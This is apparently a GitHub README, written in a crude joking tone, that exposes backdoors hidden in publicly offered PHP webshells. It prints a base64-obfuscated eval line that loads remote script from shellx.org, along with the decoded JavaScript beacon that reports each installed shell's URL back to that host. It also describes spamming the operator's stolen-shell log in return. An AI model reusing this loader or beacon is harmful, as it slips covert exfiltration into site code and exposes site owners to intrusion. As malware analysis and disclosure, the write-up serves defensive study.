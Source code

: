 # Disturbing Public Backdoored Webshells
## _because it only coast few minutes :)_


I noticed that most of the sites which supposedly offer webshells, all of them are backdoored, and likely its indexed first when you googling for webshells.

- Decoding the hardcoded php webshell.
- Looking around.
- Cum on it ✨ 

## !Let's Start!
> a backdoored wso webshell : https://shellx.org//Shell/wsodownload.txt
> Let's decode the hardcoded php here : https://malwaredecoder.com/

##### As you can see decrypted code level 3.
![huh](https://i.imgur.com/qick3FL.png)

Another example here : 
```
eval("?>".base64_decode("PFNDUklQVCBTUkM9aHR0cDovL3NoZWxseC5vcmcvaGlkZS9jc2huMS9jY3MuanM+PC9TQ1JJUFQ+"));
=========================== base64 decoded ===================================
<SCRIPT SRC=http://shellx.org/hide/cshn1/ccs.js></SCRIPT>
=============================== Content ======================================
a=new/**/Image();a.src='http://shellx.org/hide/add.php?a='+escape(location.href);
```

### Let's cum on it 
> well its a simple python code to spam his (logfile which it contains all the stolen shell results) :
![huh](https://i.imgur.com/843asnj.png)
![huh](https://i.imgur.com/6rvpxll.png)

**i hope u gonna get a big file like your acts loolz.**
 
